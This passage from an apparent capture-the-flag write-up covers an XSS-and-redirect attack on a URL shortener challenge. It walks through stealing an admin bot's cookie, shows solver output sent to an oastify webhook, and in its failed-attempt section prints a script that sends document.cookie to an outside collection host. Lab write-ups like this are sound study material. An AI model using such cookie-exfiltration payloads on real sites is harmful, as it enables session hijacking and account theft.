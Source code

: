 
4. Report the shortened URL. 
   
5. Admin visits the URL, XSS executes and redirects to the attacker's site, appending the admin's cookie as a GET parameter
	![]({{ page.img_path }}Oops-1748770874645.png)

6. Solve

    <video muted autoplay controls style="width: 740px; height: 460px;">
        <source src="{{site.cdn}}{{page.img_path}}2025-06-01%2017-38-43.mp4" type="video/mp4">
    </video>

7. Solver

    > [code](https://github.com/yufongg/ctf/blob/main/greyctf/2025/web/oops/solve.py)
    
	```
	~/labs/greyctf2025/ezpz/oops
	venv3 ❯ python3 solve.py --url http://192.168.150.135:33001 --webhook_url https://1y09ank7toa79jd9jvjcl6gxnotfh7iv7.oastify.com
	[+] shortened_url: http://192.168.150.135:33001/d6jJkf
	[+] check collaborator for flag
	```

    <video muted autoplay controls style="width: 740px; height: 460px;">
        <source src="{{site.cdn}}{{page.img_path}}9zBitg5jVM.mp4" type="video/mp4">
    </video>


## Failed Attempt

For my first attempt, I went with this

1. Hosted a public site `https://2ff5-121-7-203-27.ngrok-free.app` with an XSS payload meant to exfiltrate cookies.
2. Shorten the URL so that `bot.js` (the admin user) would visit it.
3. When the admin accesses the shortened link `http://192.168.150.135:33001/5MHOUn`, they are redirected to `https://2ff5-121-7-203-27.ngrok-free.app`.
4. However, the browser didn't include the flag cookie due to the origin mismatch.
5. The XSS payload on the attacker's website executes in the admin's browser, but there is no cookie to exfiltrate.

---

1. Create XSS payload, `index.html`

	```
	<script>var i=new Image(); i.src="http://c9m5u7a6n98fpqpfxor5m8qyopugi76w.oastify.com/?cookie="+btoa(document.cookie);</script>
	```

2. Host XSS payload

	1. Start `ngrok`

		>- [ngrok setup](https://ngrok.com/docs/getting-started/)
